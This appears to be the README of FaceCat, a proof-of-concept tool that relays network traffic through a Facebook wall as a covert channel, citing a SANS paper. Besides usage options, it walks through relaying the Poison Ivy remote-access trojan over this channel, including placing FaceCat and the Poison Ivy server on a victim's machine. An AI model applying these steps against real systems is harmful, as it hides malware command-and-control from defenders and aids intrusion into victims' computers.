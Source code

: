 FaceCat is cover channel Proof of Concept in Facebook. It is not actively maintained, so please note that it may require some HTML parsing changes. Any pull request with an update is more than welcome.
It works similar to the widely known tool NetCat, but 

```
 $ ./facecat.py
Usage: facecat.py [options]
Options:
-h, --help            show this help message and exit wall pipe account
-w WALL, --wall=WALL  wall pipe account 
-c HOST --host=HOST   connection host
-p PORT --port=PORT   listening or connection port
-v --verbose          verbose output
```

* Help: Just show the help

* Wall: Email of the master’s wall. It has to be previously configured in order to allow writing on it.

* Host: FaceCat can work by listening or connecting, as NetCat does. If you chose a host, connection mode is used. If not, listening mode is.

* Port: Port where FaceCat is listening for new connections, or port to connect to (Host:Port connection).

* Verbose: Shows each step of the process. Useful for educational purposes.

Example using Poison Ivy:
1. Create a Poison Ivy server that will try to connect to 127.0.0.1 at port 3460. We also start a Poison Ivy client listening at the same port.
2. Create and configure a FaceBook account in order to write on its wall, for instance `wall1@gmail.com`.
3. Run Internet Explorer and login in our newly created account.
4. Run FaceCat in order to read wall1@gmail.com’s wall and to relay to our local poison ivy’s client: 
```
$ facecat.py –v –m wall1@gmail.com –c 127.0.0.1 –p 3460
```
5. Copy (or infect) FaceCat and Poison Ivy’s server to the victim’s machine.
6. Run FaceCat in order to listen to port 3460 in the victim’s machine and to relay to `wall1@gmail.com`’s wall:
```
$ facecat.py –v –m wall1@gmail.com –p 3460
```
7. Run Poison Ivy’s client in the victim’s machine.
8. Use Poison Ivy normally, but through a FaceBook’s Covert Channel.

Demo: https://youtu.be/C_c8KNvVSVg

Full SANS Paper: https://www.sans.org/reading-room/whitepapers/engineering/covert-channels-social-networks-33960 
